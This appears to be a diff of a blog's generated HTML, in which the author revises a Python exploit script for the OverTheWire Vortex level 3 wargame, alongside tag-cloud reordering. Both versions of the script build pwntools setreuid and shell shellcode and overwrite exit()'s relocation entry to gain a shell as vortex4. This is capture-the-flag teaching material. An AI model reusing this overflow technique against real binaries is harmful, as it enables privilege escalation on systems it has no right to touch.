

Site updated: 2020-02-13 17:49:35

Changed region(s): [[0.0, 0.0, 0.7375, 0.7934]]

diff --git a/2020/02/02/overthewire-vortex-lvl3-4/index.html b/2020/02/02/overthewire-vortex-lvl3-4/index.html
@@ -172,7 +172,7 @@ this a dynamically linked executable that is compiled with lazy binding which me
 <p><img src="/images/ctf/wargames/overthewire/vortex/lvl3-4/09.png" alt="img09"><br><img src="/images/ctf/wargames/overthewire/vortex/lvl3-4/10.png" alt="img10"></p>
 <p>we hit the hlt instruction so we are moving in the right direction, great!.</p>
 <p>now i will write an exploit for this vulernable binary that will enable us to get a shell as user vortex4.</p>
-<figure class="highlight python"><figcaption><span>expl0it.py</span><a href="https://github.com/En14c/rand0m.scr1pts/blob/master/ctf/wargames/overthewire/vortex/lvl3-4/expl0it.py" target="_blank" rel="noopener">view on github</a></figcaption><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">#!/usr/bin/env python2</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">import</span> os</span><br><span class="line"><span class="keyword">import</span> re</span><br><span class="line"><span class="keyword">import</span> struct</span><br><span class="line"><span class="keyword">import</span> subprocess</span><br><span class="line"><span class="keyword">import</span> pwn</span><br><span class="line"></span><br><span class="line">pwn.context(arch=<span class="string">"i386"</span>, os=<span class="string">"linux"</span>)</span><br><span class="line"></span><br><span class="line"><span class="comment"># get user vortex4's uid</span></span><br><span class="line"><span class="keyword">with</span> open(<span class="string">"/etc/passwd"</span>, <span class="string">"r"</span>) <span class="keyword">as</span> fd:</span><br><span class="line">    r_buf = fd.read()</span><br><span class="line">    match = re.search(<span class="string">'(?P&lt;vortex4_passwd_entry&gt;vortex4:x:\d:\d)'</span>, r_buf)</span><br><span class="line">    <span class="keyword">if</span> match:</span><br><span class="line">        vortex4_uid = int(</span><br><span class="line">            match.group(<span class="string">'vortex4_passwd_entry'</span>).split(<span class="string">':'</span>)[<span class="number">-1</span>])</span><br><span class="line">        <span class="keyword">print</span> <span class="string">'found user vortex4 with uid: [&#123;0&#125;]'</span>.format(vortex4_uid)</span><br><span class="line"></span><br><span class="line"><span class="keyword">print</span> <span class="string">'generating shellcode... '</span>,</span><br><span class="line"></span><br><span class="line">shellcode = pwn.asm(pwn.shellcraft.setreuid() + pwn.shellcraft.sh())</span><br><span class="line"></span><br><span class="line"><span class="string">'''</span></span><br><span class="line"><span class="string">[ 0x80482a4 ] is the r_offset field of the exit() function's entry</span></span><br><span class="line"><span class="string">in the dynamic relocation table</span></span><br><span class="line"><span class="string">'''</span></span><br><span class="line"><span class="comment"># address of dynamic relocation table entry for libc's exit()</span></span><br><span class="line">exit_reltab_addr = struct.pack(<span class="string">'&lt;I'</span>, <span class="number">0x80482a4</span>)</span><br><span class="line"></span><br><span class="line"><span class="comment"># 132 = sizeof(vuln_buf) + sizeof(tmp_ptr)</span></span><br><span class="line">exp_egg = shellcode + \</span><br><span class="line">    (<span class="string">'\x41'</span> * (<span class="number">132</span> - len(shellcode))) + exit_reltab_addr</span><br><span class="line"></span><br><span class="line"><span class="keyword">print</span> <span class="string">'[done]'</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">print</span> <span class="string">'trying to exploit the vulnerable binary'</span></span><br><span class="line"></span><br><span class="line">exit_stat = subprocess.call([<span class="string">"./vortex3"</span>, exp_egg])</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span> exit_stat != os.EX_OK:</span><br><span class="line">    <span class="keyword">print</span> <span class="string">'failed to exploit the vulnerable binary'</span></span><br></pre></td></tr></table></figure>
+<figure class="highlight python"><figcaption><span>expl0it.py</span><a href="https://github.com/En14c/rand0m.scr1pts/blob/master/ctf/wargames/overthewire/vortex/lvl3-4/expl0it.py" target="_blank" rel="noopener">view on github</a></figcaption><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">#!/usr/bin/env python2</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">import</span> os</span><br><span class="line"><span class="keyword">import</span> re</span><br><span class="line"><span class="keyword">import</span> pwd</span><br><span class="line"><span class="keyword">import</span> struct</span><br><span class="line"><span class="keyword">import</span> subprocess</span><br><span class="line"><span class="keyword">import</span> pwn</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">def</span> <span class="title">expl0it</span><span class="params">()</span>:</span></span><br><span class="line">    <span class="string">'''</span></span><br><span class="line"><span class="string">    exploit the target vulnerable process</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">    return (int: 1) on success and (int: 0) on failure</span></span><br><span class="line"><span class="string">    '''</span></span><br><span class="line"></span><br><span class="line">    <span class="keyword">try</span>:</span><br><span class="line">        vortex4_uid = pwd.getpwnam(<span class="string">'vortex4'</span>).pw_uid</span><br><span class="line">    <span class="keyword">except</span> KeyError:</span><br><span class="line">        <span class="keyword">print</span> <span class="string">'user vortex4 does not exist'</span></span><br><span class="line">        <span class="keyword">return</span> <span class="number">0</span></span><br><span class="line"></span><br><span class="line">    pwn.context(arch=<span class="string">'i386'</span>, os=<span class="string">'linux'</span>)</span><br><span class="line"></span><br><span class="line">    <span class="keyword">print</span> <span class="string">'generating shellcode...'</span>,</span><br><span class="line"></span><br><span class="line">    shellcode = pwn.asm(</span><br><span class="line">        pwn.shellcraft.setreuid(vortex4_uid) + pwn.shellcraft.sh())</span><br><span class="line"></span><br><span class="line">    <span class="string">'''</span></span><br><span class="line"><span class="string">    @[0x80482a4]:</span></span><br><span class="line"><span class="string">        - the virtual address of the (r_offset) field in the dynamic relocation</span></span><br><span class="line"><span class="string">          table entry for glibc's exit()</span></span><br><span class="line"><span class="string">    '''</span></span><br><span class="line">    ptr2exitgotslot = struct.pack(<span class="string">"&lt;I"</span>, <span class="number">0x80482a4</span>)</span><br><span class="line"></span><br><span class="line">    <span class="comment"># 132 = sizeof(vulnerable buffer) + sizeof(the pointer named tmp)</span></span><br><span class="line">    expegg = shellcode + <span class="string">'\x41'</span> * (<span class="number">132</span> - len(shellcode)) + ptr2exitgotslot</span><br><span class="line"></span><br><span class="line">    <span class="keyword">print</span> <span class="string">'[done]'</span></span><br><span class="line">    <span class="keyword">print</span> <span class="string">'trying to expl0it the vulnerable process'</span></span><br><span class="line"></span><br><span class="line">    exit_stat = subprocess.call([<span class="string">'/vortex/vortex3'</span>, expegg])</span><br><span class="line">    </span><br><span class="line">    <span class="keyword">return</span> <span class="number">0</span> <span class="keyword">if</span> exit_stat != os.EX_OK <span class="keyword">else</span> <span class="number">1</span></span><br><span class="line">        </span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span> __name__ == <span class="string">'__main__'</span>:</span><br><span class="line">    expl0it_success = expl0it()</span><br><span class="line">    <span class="keyword">if</span> <span class="keyword">not</span> expl0it_success:</span><br><span class="line">        <span class="keyword">print</span> <span class="string">'failed to expl0it the target vulnerable process'</span></span><br></pre></td></tr></table></figure>
 
 <p>now let’s execute the script.</p>
 <p><img src="/images/ctf/wargames/overthewire/vortex/lvl3-4/11.png" alt="img11"></p>

diff --git a/tags/ctf/index.html b/tags/ctf/index.html
@@ -212,15 +212,15 @@
 		<h4>Tag Cloud</h4>
 		<ul class="tag_box inline list-unstyled">		
 		
-			<li><a href="/tags/overthewire/">overthewire<span>25</span></a></li>
-		
-			<li><a href="/tags/vortex/">vortex<span>4</span></a></li>
-		
-			<li><a href="/tags/ctf/">ctf<span>25</span></a></li>
+			<li><a href="/tags/wargames/">wargames<span>25</span></a></li>
 		
 			<li><a href="/tags/linux/">linux<span>21</span></a></li>
 		
-			<li><a href="/tags/wargames/">wargames<span>25</span></a></li>
+			<li><a href="/tags/ctf/">ctf<span>25</span></a></li>
+		
+			<li><a href="/tags/overthewire/">overthewire<span>25</span></a></li>
+		
+			<li><a href="/tags/vortex/">vortex<span>4</span></a></li>
 		
 		 
 		</ul>

diff --git a/archives/2020/01/index.html b/archives/2020/01/index.html
@@ -347,15 +347,15 @@
 		<h4>Tag Cloud</h4>
 		<ul class="tag_box inline list-unstyled">		
 		
-			<li><a href="/tags/overthewire/">overthewire<span>25</span></a></li>
-		
-			<li><a href="/tags/linux/">linux<span>21</span></a></li>
-		
-			<li><a href="/tags/wargames/">wargames<span>25</span></a></li>
-		
 			<li><a href="/tags/ctf/">ctf<span>25</span></a></li>
 		
 			<li><a href="/tags/vortex/">vortex<span>4</span></a></li>
+		
+			<li><a href="/tags/wargames/">wargames<span>25</span></a></li>
+		
+			<li><a href="/tags/linux/">linux<span>21</span></a></li>
+		
+			<li><a href="/tags/overthewire/">overthewire<span>25</span></a></li>
 		
 		 
 		</ul>

diff --git a/archives/2020/page/3/index.html b/archives/2020/page/3/index.html
@@ -347,15 +347,15 @@
 		<h4>Tag Cloud</h4>
 		<ul class="tag_box inline list-unstyled">		
 		
-			<li><a href="/tags/wargames/">wargames<span>25</span></a></li>
-		
-			<li><a href="/tags/linux/">linux<span>21</span></a></li>
-		
 			<li><a href="/tags/ctf/">ctf<span>25</span></a></li>
+		
+			<li><a href="/tags/overthewire/">overthewire<span>25</span></a></li>
 		
 			<li><a href="/tags/vortex/">vortex<span>4</span></a></li>
 		
-			<li><a href="/tags/overthewire/">overthewire<span>25</span></a></li>
+			<li><a href="/tags/wargames/">wargames<span>25</span></a></li>
+		
+			<li><a href="/tags/linux/">linux<span>21</span></a></li>
 		
 		 
 		</ul>

diff --git a/page/3/index.html b/page/3/index.html
@@ -388,15 +388,15 @@
 		<h4>Tag Cloud</h4>
 		<ul class="tag_box inline list-unstyled">		
 		
-			<li><a href="/tags/linux/">linux<span>21</span></a></li>
+			<li><a href="/tags/overthewire/">overthewire<span>25</span></a></li>
 		
 			<li><a href="/tags/vortex/">vortex<span>4</span></a></li>
 		
-			<li><a href="/tags/wargames/">wargames<span>25</span></a></li>
-		
-			<li><a href="/tags/overthewire/">overthewire<span>25</span></a></li>
+			<li><a href="/tags/linux/">linux<span>21</span></a></li>
 		
 			<li><a href="/tags/ctf/">ctf<span>25</span></a></li>
+		
+			<li><a href="/tags/wargames/">wargames<span>25</span></a></li>
 		
 		 
 		</ul>

diff --git a/tags/wargames/index.html b/tags/wargames/index.html
@@ -212,15 +212,15 @@
 		<h4>Tag Cloud</h4>
 		<ul class="tag_box inline list-unstyled">		
 		
-			<li><a href="/tags/wargames/">wargames<span>25</span></a></li>
+			<li><a href="/tags/overthewire/">overthewire<span>25</span></a></li>
 		
 			<li><a href="/tags/linux/">linux<span>21</span></a></li>
 		
-			<li><a href="/tags/vortex/">vortex<span>4</span></a></li>
+			<li><a href="/tags/wargames/">wargames<span>25</span></a></li>
 		
 			<li><a href="/tags/ctf/">ctf<span>25</span></a></li>
 		
-			<li><a href="/tags/overthewire/">overthewire<span>25</span></a></li>
+			<li><a href="/tags/vortex/">vortex<span>4</span></a></li>
 		
 		 
 		</ul>

diff --git a/archives/2020/01/page/3/index.html b/archives/2020/01/page/3/index.html
@@ -347,15 +347,15 @@
 		<h4>Tag Cloud</h4>
 		<ul class="tag_box inline list-unstyled">		
 		
-			<li><a href="/tags/wargames/">wargames<span>25</span></a></li>
+			<li><a href="/tags/linux/">linux<span>21</span></a></li>
 		
 			<li><a href="/tags/overthewire/">overthewire<span>25</span></a></li>
 		
-			<li><a href="/tags/vortex/">vortex<span>4</span></a></li>
-		
-			<li><a href="/tags/linux/">linux<span>21</span></a></li>
-		
 			<li><a href="/tags/ctf/">ctf<span>25</span></a></li>
+		
+			<li><a href="/tags/wargames/">wargames<span>25</span></a></li>
+		
+			<li><a href="/tags/vortex/">vortex<span>4</span></a></li>
 		
 		 
 		</ul>

diff --git a/tags/index.html b/tags/index.html
@@ -1868,15 +1868,15 @@
 		<h4>Tag Cloud</h4>
 		<ul class="tag_box inline list-unstyled">		
 		
+			<li><a href="/tags/wargames/">wargames<span>25</span></a></li>
+		
 			<li><a href="/tags/overthewire/">overthewire<span>25</span></a></li>
 		
-			<li><a href="/tags/vortex/">vortex<span>4</span></a></li>
-		
-			<li><a href="/tags/wargames/">wargames<span>25</span></a></li>
+			<li><a href="/tags/linux/">linux<span>21</span></a></li>
 		
 			<li><a href="/tags/ctf/">ctf<span>25</span></a></li>
 		
-			<li><a href="/tags/linux/">linux<span>21</span></a></li>
+			<li><a href="/tags/vortex/">vortex<span>4</span></a></li>
 		
 		 
 		</ul>

diff --git a/tags/wargames/page/3/index.html b/tags/wargames/page/3/index.html
@@ -167,15 +167,15 @@
 		<h4>Tag Cloud</h4>
 		<ul class="tag_box inline list-unstyled">		
 		
-			<li><a href="/tags/vortex/">vortex<span>4</span></a></li>
+			<li><a href="/tags/wargames/">wargames<span>25</span></a></li>
+		
+			<li><a href="/tags/linux/">linux<span>21</span></a></li>
 		
 			<li><a href="/tags/ctf/">ctf<span>25</span></a></li>
 		
-			<li><a href="/tags/wargames/">wargames<span>25</span></a></li>
+			<li><a href="/tags/vortex/">vortex<span>4</span></a></li>
 		
 			<li><a href="/tags/overthewire/">overthewire<span>25</span></a></li>
-		
-			<li><a href="/tags/linux/">linux<span>21</span></a></li>
 		
 		 
 		</ul>

diff --git a/archives/page/3/index.html b/archives/page/3/index.html
@@ -347,15 +347,15 @@
 		<h4>Tag Cloud</h4>
 		<ul class="tag_box inline list-unstyled">		
 		
-			<li><a href="/tags/ctf/">ctf<span>25</span></a></li>
+			<li><a href="/tags/vortex/">vortex<span>4</span></a></li>
 		
 			<li><a href="/tags/wargames/">wargames<span>25</span></a></li>
 		
-			<li><a href="/tags/linux/">linux<span>21</span></a></li>
-		
-			<li><a href="/tags/vortex/">vortex<span>4</span></a></li>
-		
 			<li><a href="/tags/overthewire/">overthewire<span>25</span></a></li>
+		
+			<li><a href="/tags/ctf/">ctf<span>25</span></a></li>
+		
+			<li><a href="/tags/linux/">linux<span>21</span></a></li>
 		
 		 
 		</ul>

diff --git a/tags/linux/index.html b/tags/linux/index.html
@@ -212,15 +212,15 @@
 		<h4>Tag Cloud</h4>
 		<ul class="tag_box inline list-unstyled">		
 		
+			<li><a href="/tags/vortex/">vortex<span>4</span></a></li>
+		
 			<li><a href="/tags/wargames/">wargames<span>25</span></a></li>
-		
-			<li><a href="/tags/linux/">linux<span>21</span></a></li>
-		
-			<li><a href="/tags/ctf/">ctf<span>25</span></a></li>
 		
 			<li><a href="/tags/overthewire/">overthewire<span>25</span></a></li>
 		
-			<li><a href="/tags/vortex/">vortex<span>4</span></a></li>
+			<li><a href="/tags/ctf/">ctf<span>25</span></a></li>
+		
+			<li><a href="/tags/linux/">linux<span>21</span></a></li>
 		
 		 
 		</ul>

diff --git a/tags/overthewire/index.html b/tags/overthewire/index.html
@@ -212,15 +212,15 @@
 		<h4>Tag Cloud</h4>
 		<ul class="tag_box inline list-unstyled">		
 		
+			<li><a href="/tags/ctf/">ctf<span>25</span></a></li>
+		
 			<li><a href="/tags/wargames/">wargames<span>25</span></a></li>
 		
-			<li><a href="/tags/linux/">linux<span>21</span></a></li>
-		
-			<li><a href="/tags/ctf/">ctf<span>25</span></a></li>
+			<li><a href="/tags/vortex/">vortex<span>4</span></a></li>
 		
 			<li><a href="/tags/overthewire/">overthewire<span>25</span></a></li>
 		
-			<li><a href="/tags/vortex/">vortex<span>4</span></a></li>
+			<li><a href="/tags/linux/">linux<span>21</span></a></li>
 		
 		 
 		</ul>
